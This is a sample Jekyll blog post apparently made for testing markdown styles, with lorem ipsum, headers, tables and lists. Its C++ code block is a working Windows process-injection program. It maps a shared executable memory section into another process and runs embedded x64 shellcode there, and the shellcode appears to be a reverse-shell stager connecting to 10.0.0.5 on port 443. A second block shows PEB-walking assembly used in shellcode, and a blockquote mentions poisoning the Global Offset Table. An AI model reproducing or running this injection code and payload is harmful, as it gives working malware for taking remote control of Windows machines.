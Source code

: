 ```yaml
---
layout: post
title: "sample post just for test"
date: 2025-08-02
categories: samples
permalink: "sample-post-just-for-test"
tag: 
    - styles 
    - md
---
```


Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce bibendum neque eget nunc mattis eu sollicitudin enim tincidunt. Vestibulum lacus tortor, ultricies id dignissim ac, bibendum in velit.

Text can be **bold**, _italic_, or ~~strikethrough~~.

[Link to another page](https://github.com/AmwNLTL).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.

# Header 1

This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.

## Header 2

> This is a blockquote following a header.
>
>
> In order to control the flow of program execution or arbitrarily execute specific code or function, we must overwrite one of the function pointers or poison the Goblal Offset Table.

### Header 3

```c++
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {	ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,	HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
	
	// create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
	// create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;
}
```

```txt
.386 
.model flat, stdcall 
.stack 4096
assume fs:nothing

.code 
	main proc
			mov eax, [fs:30h]		    ; Pointer to PEB (https://en.wikipedia.org/wiki/Win32_Thread_Information_Block)
			mov eax, [eax + 0ch]		; Pointer to Ldr
			mov eax, [eax + 14h]		; Pointer to InMemoryOrderModuleList
			mov eax, [eax]				  ; this program's module
			mov eax, [eax]				  ; ntdll module
			mov eax, [eax -8h + 18h]; kernel32.DllBase
			
			mov ebx, 0				      ; just so we can put a breakpoint on this
	main endp
	end main
```


### Table

| head1        | head two          | three |
|:-------------|:------------------|:------|
| ok           | good swedish fish | nice  |
| out of stock | good and plenty   | nice  |
| ok           | good `oreos`      | hmm   |
| ok           | good `zoute` drop | yumm  |

### There's a horizontal rule below this.

* * *

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![here should be kitty cat](../assets/images/kitty-cat-1.png)

```txt
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```txt
The final element.
```